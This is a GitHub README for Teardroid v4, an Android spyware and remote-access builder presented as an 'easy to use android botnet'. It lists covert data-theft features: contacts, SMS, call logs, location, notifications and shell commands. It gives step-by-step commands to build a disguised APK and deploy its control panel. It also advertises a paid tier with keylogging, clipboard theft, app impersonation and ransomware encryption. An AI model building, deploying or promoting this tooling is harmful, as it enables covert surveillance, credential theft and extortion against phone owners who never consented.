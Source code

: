 # Teardroid v4
![Screenshot](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/IMG-20220122-WA0000_RdKN5Rv3U.jpg)

It's easy to use android botnet work without port forwarding, vps and android studio

[![GitHub issues](https://img.shields.io/github/issues/ScRiPt1337/Teardroid-phprat)](https://github.com/ScRiPt1337/Teardroid-phprat/issues)
[![Twitter](https://img.shields.io/twitter/url?style=social&url=https%3A%2F%2Ftwitter.com%2Fhacksec42)](https://twitter.com/intent/tweet?text=Wow:&url=https://github.com/ScRiPt1337/Teardroid-phprat/)
[![Hacksec](https://img.shields.io/badge/Teardroid-4.0-red)](https://github.com/ScRiPt1337/Teardroid-phprat/)

### Features
- Retrieve Contact
- Retrieve SMS
- Retrieve running Services
- Retrieve Device Location (Only work when the app is open on newer devices)
- Retrieve Call Logs
- Run Shell Command
- Change Wallpaper
- Send SMS
- Make Call
- Get Installed Apps
- Download File
- Read Notification
- Auto-Start

### Requirement

- Python3
- Java
- Linux or Windows os

### Java version i used
```bash
$ java -version
openjdk version "11.0.13" 2021-10-19
OpenJDK Runtime Environment (build 11.0.13+8)
OpenJDK 64-Bit Server VM (build 11.0.13+8, mixed mode)
```

### How to setup
- Set up an account at [deta.sh](https://web.deta.sh/) its free.
- Click Deploy to Deta Button to configure your control panel.
- Clone Teardroid-phprat repo with the following command.
```bash 
$ git clone https://github.com/ScRiPt1337/Teardroid-phprat
```
- cd in the Teardroid-phprat directory, then type the command below to install all dependencies
```bash
$ pip install -r requirements.txt
```
- Run the following command to see the options that we can use with the builder.
```bash
$ python Teardroid.py                                                                                                         
  ______                    __           _     __         __ __
 /_  __/__  ____ __________/ /________  (_)___/ /  _   __/ // /
  / / / _ \/ __ `/ ___/ __  / ___/ __ \/ / __  /  | | / / // /_
 / / /  __/ /_/ / /  / /_/ / /  / /_/ / / /_/ /   | |/ /__  __/
/_/  \___/\__,_/_/   \__,_/_/   \____/_/\__,_/    |___/  /_/   
                                                               

usage: Teardroid.py [-h] [-v] [-b]

Teardroid v4.0 - A tool to build teardroid spyware for Android devices.

options:
  -h, --help     show this help message and exit
  -v, --version  Version of Teardroid
  -b , --build   Build Teardroid with custom name [ex: Teardroid.py -b teardroid]
```
- To create an apk execute the following command.
```bash
$ python Teardroid.py -b your_app_name
```
- It will prompt you with your Control Panel url enter your deta micro URL (without / at the end of the url).
- You will also be prompted for the title and text of the notification. Enter what you want to display on the notification.
- DONE

[![Deploy](https://button.deta.dev/1/svg)](https://go.deta.dev/deploy?repo=https://github.com/ScRiPt1337/Teardroidv4_api)

### Build using bot
- Build Teardroid using [teardroid_bot](https://t.me/teardroid_bot) in telegram
### Manually deploy the Teardroid control panel
- Set up an account at [deta.sh](https://web.deta.sh/)
- Install [Deta Cli](https://docs.deta.sh/docs/cli/install)
- Logging in to Deta via the CLI
- Create a new Python Micro
- Clone [Teardroidv4_api](https://github.com/ScRiPt1337/Teardroidv4_api) repo
- Move all Teardroidv4_api Files to your deta micro folder.
- Deploy the Control panel using the following command.
```bash
$ deta deploy
```
### Dashboard
- visit : https://{your server url}/v4/overview
- defualt username/password is : admin/admin

### Screenshot

- ![Builder](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/Builder_3oDdS0Tr7.png)

- ![Overview](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-29_gYkI6tIvGmG.png)

- ![TaskManager](https://raw.githubusercontent.com/ScRiPt1337/Teardroid-phprat/master/img/2022-01-27_22-49_RakvqeLWG.jpeg)

### Demo Video
- Video : [how to hack android phone using Teardroid v4](https://www.instagram.com/tv/CZSu4y0osHo/?utm_source=ig_web_button_share_sheet)

### Teardroid PRO
- Go to telegram and search @teardroid_bot to know how you can get it
#### PRO Features
- Get users key strokes (whatever they type in there keyboard like username password etc)
- Get users clipboard data (get whatever is copied in there clipboard)
- Ability to hide behind any other app (like : Facebook, Twitter, LinkedIn etc)
- Encrypt files with AES encryption (work as ransomware)
- Robust connection with server we will setup everything for you on aws or any other self hosting server
- 24x7 support for 3 month (any kind of help or support related to teardroid will be given by our team)

### Support me
[!["Buy Me A Coffee"](https://www.buymeacoffee.com/assets/img/custom_images/orange_img.png)](https://www.buymeacoffee.com/script1337x)

### Contact info 
- Email : script@hacksec.in
- Discord : https://discord.gg/5CjQacc
- Telegram : https://t.me/hacksecofficial
- Visit our website : https://www.hacksec.in
- Visit Teardroid Website : https://teardroidv4.deta.dev

